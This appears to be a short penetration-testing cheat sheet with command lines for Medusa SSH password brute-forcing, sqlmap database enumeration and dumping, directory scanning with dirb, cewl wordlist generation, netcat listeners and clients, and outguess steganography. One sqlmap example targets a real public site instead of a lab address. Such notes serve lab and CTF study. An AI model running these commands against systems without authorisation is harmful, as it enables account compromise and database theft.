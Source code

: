 # Medusa
```bash
medusa -h 192.168.1.10 -u olav -P wordlist.txt -M ssh -n 22
```

# sqlmap (SQL Injection)
* intercept login requst with burp
* rightclick>save as file.txt

```
sqlmap -r file.txt --dbs    // scan for databases
sqlmap -u http://vg.no --dbs
sqlmap -r file.txt -D DB_NAME --tables   // select database by name and enumerate tables
sqlmap -r file.txt -D DB_NAME -T TABLE_NAME --dump    // select table
```

# dirbuster
* turn up threads limit
* wordlists in /usr/share/wordlists/dirbuster/        /directory-list-2.3-medium.txt
* from terminal:
```
dirb http://192.168.1.10
```

# cewl
* generate wordlist from web page:
```
cewl http://192.168.1.10/?q=node/1 -w list.txt
```

# netcat
* setup server:
```bash
nc -nvlp 1234
```

* setup client:
```bash
nc -nv 192.168.1.10 1234
```
* save any incoming file/input:
```bash
nc -nvlp 1234 > data.txt/sh
```

# outguess (encrypt/decrypt embeded image)
* To embed the message hidden.txt into the monkey.jpg image:
```bash
outguess -k  "my secret pass phrase" -d hidden.txt monkey.jpg out.jpg
```
* retrieve the hidden	message	from the image:
```bash
outguess -k "my secret pass phrase" -r out.jpg message.txt
```
